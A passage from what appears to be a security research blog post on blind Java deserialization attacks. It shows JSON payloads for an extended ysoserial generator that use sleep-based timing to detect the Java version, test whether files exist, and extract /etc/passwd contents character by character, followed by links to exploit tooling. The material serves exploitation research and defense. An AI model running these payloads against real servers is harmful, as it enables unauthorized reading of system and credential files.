 This payload has 2 consequent commands. `java` command is a macro we defined in the [Generator.java] which detects
whether the running Java version is 8. It does that by Classloading a class that was added in Java 8. Thus
if Java 8 is there, class load succeeds and sleep is invoked. If lower java version is there, class loading fails with
exception and sleep is not invoked.

```json
{"exec":[
  {"cmd":"java", "val": 8},
  {"cmd":"sleep", "val": 5000}
]}
```

The following payload is a simple `if (predicate) then action`. `fileEx` is another macro which constructs a
predicate returning true if the given file exists. In this example the application sleeps in that case.

```json
{"exec":[
  {"cmd":"if",
     "pred":{"cmd":"fileEx", "val": "/etc/passwd"},
     "then":{"cmd":"sleep", "val": 5000}
  }
]}
```

This payload reads the `/etc/passwd` file from the file system, converts all characters to lowercase
 and tests if the result contains a string `nbusr123`. If it does, the app sleeps for 5 seconds.

```json
{"exec":[
  {"cmd":"if", "pred":[
  {"cmd":"fileRead", "val":"/etc/passwd"},
  {"cmd":"toLower"},
  {"cmd":"contains", "val":"nbusr123"}],
  "then":{"cmd":"sleep", "val": 5000}}
]}
```

This one demonstrated how to do a binary search on the input string - in this case the `/etc/passwd` file.
The page sleeps for 5 seconds if the 16th character of the file is in the regex range `[a-z]`.

```json
{"exec":[
  {"cmd":"if", "pred":[
  {"cmd":"fileRead", "val":"/etc/passwd"},
  {"cmd":"toLower"},
  {"cmd":"substr", "start":15, "stop":16},
  {"cmd":"matches", "val":"[a-z]"}],
  "then":{"cmd":"sleep", "val": 5000}}
]}
```


[Part 1]: https://deadcode.me/blog/2016/09/02/Blind-Java-Deserialization-Commons-Gadgets.html
[ysoserial]: https://github.com/frohoff/ysoserial
[extended ysoserial]: https://github.com/yolosec/ysoserial
[Deserialize test server]: https://github.com/yolosec/deserialize-server
[Generator.java]: https://github.com/yolosec/ysoserial/blob/master/src/main/java/ysoserial/blind/Generator.java
[Attack.java]: https://github.com/yolosec/ysoserial/blob/master/src/main/java/ysoserial/blind/Attack.java
[GeneratorTest.java]: https://github.com/yolosec/ysoserial/blob/master/src/test/java/ysoserial/blind/GeneratorTest.java
[AttackTest.java]: https://github.com/yolosec/ysoserial/blob/master/src/test/java/ysoserial/blind/AttackTest.java
[Affected versions]: https://commons.apache.org/proper/commons-collections/security-reports.html#Apache_Commons_Collections_Security_Vulnerabilities
[Java-Deserialization-Cheat-Sheet]: https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet
[Understanding ysoserial's CommonsCollections1 exploit]: http://gursevkalra.blogspot.cz/2016/01/ysoserial-commonscollections1-exploit.html
[What Do WebLogic, WebSphere, JBoss, Jenkins, OpenNMS, and Your Application Have in Common? This Vulnerability]: https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/#exploitdev